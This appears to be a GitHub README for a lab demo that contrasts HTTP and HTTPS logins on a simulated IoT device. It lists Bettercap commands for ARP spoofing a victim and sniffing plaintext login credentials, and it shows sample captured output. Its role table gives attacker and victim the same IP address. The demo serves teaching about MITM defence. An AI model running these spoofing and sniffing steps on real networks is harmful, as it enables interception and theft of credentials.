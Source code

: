 # 🔐 HTTPS-IoT Demo: Secure Web Login Against MITM Attacks

This project demonstrates how HTTPS protects user credentials from interception by man-in-the-middle (MITM) attacks. It simulates a login page for an IoT device served over both HTTP and HTTPS, allowing a clear comparison between insecure and secure communication.

📌 Project Overview
- 🔓 **HTTP Mode**: Credentials are sent in plaintext, easily captured via ARP spoofing + packet sniffing.
- 🔒 **HTTPS Mode**: Credentials are encrypted with TLS. MITM attacks will not reveal any sensitive data without the client trusting a malicious certificate.


### Requirements

- `Python 3.x`
- Flask (`pip install flask`)
- A Kali Linux with `bettercap` installed (usually preinstalled)
- Victim device (e.g., another VM or physical device) 

Role | IP Example  
---- | ----- 
Attacker (Kali VM) | 192.168.1.125
Server (This project) | 192.168.1.108
Victim (Ubuntu VM) |	192.168.1.125

*Ensure all devices are on the same LAN or bridge network.*

### 🔓Attack HTTP with Bettercap
**1. Enable IP Forwarding (Kali)**

　`echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward`

**2. Launch Bettercap**

　`sudo bettercap -iface eth0`

　Replace eth0 with your Kali's actual network interface (use `ip a` to check).

**3. In Bettercap console**

　`set arp.spoof.targets 192.168.1.125`  Target the victim

　`arp.spoof on`

**4. Enable HTTP sniffing (for login form capture)**

　`set http.proxy.script /usr/share/bettercap/caplets/http-req-dump/http-req-dump.js`

　`http.proxy on`

　`net.sniff on`

**5. From the server machine**

`py server.py`

By default, it runs at: `http://0.0.0.0:8080`

**6. From the Victim Machine**

　Open browser and visit:

　`http://192.168.1.108:8080/login.html`

　Login with any credentials.

**📥 What You Capture**

In the Bettercap terminal or Web UI (Events), you will see:

`[net.sniff.http.request] POST /login
　username=XXXX&password=YYYY`

### 🔒Defense with HTTPS
Once the server is upgraded to HTTPS (`https://192.168.1.108:8443`):

Credentials are encrypted

Bettercap will not capture login data unless:

You use `https.proxy on`

The victim trusts Bettercap's MITM certificate



## 📂 Folder Structure
MITM/  
    ├── README.md  
    ├── dashnewv10.html          # Simulated dashboard page  
    ├── fetchbannaprice.html       
    ├── index.html                 
    ├── login.html               # Login form page (for capture/testing)  
    ├── server.py                # A script to start a local HTTP/HTTPS service  
    ├── ssl/                   # Self-signed certificate  
    　　├── iot-dash.crt  
    　　└── iot-dash.key  
    └── .idea/                     


